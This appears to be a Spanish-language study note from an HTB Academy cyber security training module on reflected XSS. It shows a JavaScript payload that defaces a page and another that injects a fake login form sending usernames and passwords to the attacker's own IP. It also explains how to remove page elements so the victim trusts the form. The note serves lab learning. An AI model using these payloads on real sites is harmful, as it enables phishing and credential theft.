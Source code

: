 ```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```


## Phishing (Reflected XSS)

### Inyección de formulario de inicio de sesión

Poner la IP que  recibirá la credenciales (ip local que tenemos de la VPN), mirar con 'ip a' o 'ipconfig':

```javascript
document.write('<h3>Please login to continue</h3><form action=http://nuestra_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

![[xss_1.jpg]]
<a><img src="/img/xss_1.jpg"></a>
#### Limpieza

Para alentar a la víctima a usar el formulario de inicio de sesión, debemos eliminar el campo URL, de modo que pueda pensar que tiene que iniciar sesión para poder usar la página. Para ello, podemos usar la función de JavaScript `document.getElementById().remove()`.

Para encontrar `id`el elemento HTML que queremos eliminar, podemos abrir el `Page Inspector` con F12.

![[xss_2.jpg]]
<a><img src="/img/xss_2.jpg"></a>
